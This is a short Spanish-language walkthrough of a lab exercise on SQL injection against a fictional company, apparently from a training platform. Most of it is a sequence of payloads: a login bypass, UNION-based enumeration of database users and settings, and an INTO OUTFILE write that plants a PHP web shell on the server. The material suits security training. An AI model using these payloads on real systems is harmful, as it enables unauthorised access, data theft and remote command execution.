

# Skills Assessment - SQL Injection Fundamentals

La empresa Inlanefreight le ha contratado para realizar una evaluación de la aplicación web en uno de sus sitios web públicos. En vista de una reciente vulneración de seguridad de uno de sus principales competidores, están especialmente preocupados por las vulnerabilidades de inyección SQL y el daño que el descubrimiento y la explotación exitosa de este ataque podría causar a su imagen pública y sus resultados.

Proporcionaron una dirección IP de destino y ninguna otra información sobre su sitio web. Realice una evaluación completa de la aplicación web desde un enfoque de "caja gris", verificando la existencia de vulnerabilidades de inyección SQL.

Al ingresar a la pagina proporcionada tenemos este login


```
' OR 1 -- -
```


```
cn' UNION select 1,2,3,4,5-- -
```


```
cn' UNION SELECT 1, variable_name, variable_value, 4 ,5 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```


```
cn' UNION SELECT 1, user, 3, 4 ,5 from mysql.user-- 

cn' UNION SELECT 1, user(), 3, 4, 5-- -
```



```
cn' union select 1,'file written successfully!',3,4 ,5 into outfile '/var/www/html/dashboard/proof.txt'-- -
```


cn' union select "", "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/dashboard/shell.php'-- -


